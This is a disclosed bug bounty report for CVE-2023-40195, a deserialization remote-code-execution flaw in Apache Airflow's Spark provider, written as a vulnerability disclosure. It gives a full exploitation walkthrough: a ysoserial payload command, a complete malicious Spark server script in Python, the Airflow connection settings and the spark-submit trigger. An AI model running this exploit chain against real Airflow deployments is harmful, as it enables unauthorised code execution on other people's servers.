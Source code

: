 # CVE-2023-40195: Apache Airflow Spark Provider Deserialization Vulnerability RCE

## Report Details
- **Report ID**: 2127968
- **URL**: https://hackerone.com/reports/2127968
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-08-29T17:31:46.778Z
- **Disclosed**: 2023-09-08T13:06:25.448Z

## Reporter
- **Username**: x_h1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Apache Airflow Spark Provider. After the malicious Spark server address is configured through the connections of the Airflow UI interface, attackers exploit malicious servers to manipulate pyspark clients through malicious deserialization data. So as to implement RCE attack on airflow server.

##Vulnerability principle：

1. Analyze spark principle: Spark protocol is based on RPC communication. The RPC communication process is a serialization and deserialization process, Therefore, attackers can call arbitrary java methods through deserialization, implement RCE.

2.Spark can attack the server through malicious client deserialization, and can also attack the client through malicious server; In the Airflow scenario, PySpark is used as a client to connect to the Spark Server through Spark Provider. So, an attacker only needs to construct a malicious server to attack Airflow's Spark client.

The command that triggers deserialization is as follows:
**spark-submit --master spark://evil_ip:port**
Therefore, an attacker can configure malicious ip and port through the connections of the Airflow UI. And to execute the above command, then trigger the deserialization operation.

##Vulnerability exploitation process：

1. Create a new ‘Spark’ connection is named ‘spark_default’，and configure the Port and Host parameter.
Host: spark://172.31.76.174
Port: 8888

###172.31.76.174 is malicious spark server address for attackers


(F2648714)

{F2648715}

2.Attackers generate malicious deserialized data (exp.der) through the deserialization tool ysoserial. 
**Tool URL: https://github.com/frohoff/ysoserial**
The attacker locally executes the following commands：
**"C:\Program Files\Java\jre1.8.0_361\bin\java" -jar ysoserial.jar CommonsCollections4 "touch /tmp/thisisRCE" > exp.der**
#touch /tmp/thisisRCE is malicious commands to be executed on airflow.

{F2648716}

3.The attacker starts the malicious Spark server locally and specifies the malicious deserialized data to be transmitted.
**python2 evil_spark_server.py 8888 exp.der**

{F2648717}

4. Enter the DAGs menu and start hive_dag task, select “Trigger DAG w/ config”. 
http://localhost:8080/trigger?dag_id=example_spark_operator

{F2648718}

4. The final command is as follows:

**spark-submit --master spark://172.31.76.174:8888 --name arrow-spark /tmp/file**
Through the log and server view, it can be seen that any command has been executed successfully.

{F2648719}

The malicious server successfully accepted the request and sent malicious data.

{F2648720}

Successfully executed malicious commands on Airflow Worker Server.

{F2648722}

**evil_spark_server.py**
```
#!/usr/bin/python
import socket
import os
import sys
import struct

from SocketServer import BaseRequestHandler, ThreadingTCPServer

class EchoHandler(BaseRequestHandler):
    def handle(self):
        print 'Got connection from %s'%(str(self.client_address))
        while True:
            msg = self.request.recv(8192)
            print msg
            if not msg:
                break
            if len(msg) > 16:
                print "Send msg>>>"
                self.request.send(build_msg(msg[9:17]))

def build_msg(request_id):
    payloadObj = open(sys.argv[2],'rb').read()
    msg_type = '\x04'
    head_length = 21
    msg = struct.pack('>Q',len(payloadObj) + 21) + msg_type + request_id
    msg += struct.pack('>I',len(payloadObj)) + payloadObj
    return msg
if __name__ == '__main__':
    if len(sys.argv) < 3:
        print 'Usage: python %s <port> </path/to/payload>' % os.path.basename(sys.argv[0])
        sys.exit()
    serv = ThreadingTCPServer(('0.0.0.0', int(sys.argv[1])), EchoHandler)
    print "Server listening on 0.0.0.0:%s"%(sys.argv[1])
    serv.serve_forever()
```

**DAG Demo(example_spark.py):**
```
from datetime import datetime

from airflow.models import DAG
from airflow.providers.apache.spark.operators.spark_jdbc import SparkJDBCOperator
from airflow.providers.apache.spark.operators.spark_sql import SparkSqlOperator
from airflow.providers.apache.spark.operators.spark_submit import SparkSubmitOperator

with DAG(
    dag_id='example_spark_operator',
    schedule_interval=None,
    start_date=datetime(2021, 1, 1),
    catchup=False,
    tags=['example'],
) as dag:
    # [START howto_operator_spark_submit]
    submit_job = SparkSubmitOperator(
        application="/tmp/file", task_id="submit_job"
    )
    # [END howto_operator_spark_submit]

    # [START howto_operator_spark_jdbc]
    jdbc_to_spark_job = SparkJDBCOperator(
        cmd_type='jdbc_to_spark',
        jdbc_table="foo",
        spark_jars="${SPARK_HOME}/jars/postgresql-42.2.12.jar",
        jdbc_driver="org.postgresql.Driver",
        metastore_table="bar",
        save_mode="overwrite",
        save_format="JSON",
        task_id="jdbc_to_spark_job",
    )

    spark_to_jdbc_job = SparkJDBCOperator(
        cmd_type='spark_to_jdbc',
        jdbc_table="foo",
        spark_jars="${SPARK_HOME}/jars/postgresql-42.2.12.jar",
        jdbc_driver="org.postgresql.Driver",
        metastore_table="bar",
        save_mode="append",
        task_id="spark_to_jdbc_job",
    )
    # [END howto_operator_spark_jdbc]

    # [START howto_operator_spark_sql]
    sql_job = SparkSqlOperator(sql="SELECT * FROM bar", master="local", task_id="sql_job")
    # [END howto_operator_spark_sql]
```

## Impact

RCE

## Attachments
- image2.png
- image1.png
- image3.png
- image4.png
- image5.png
- image6.png
- image7.png
- image8.png
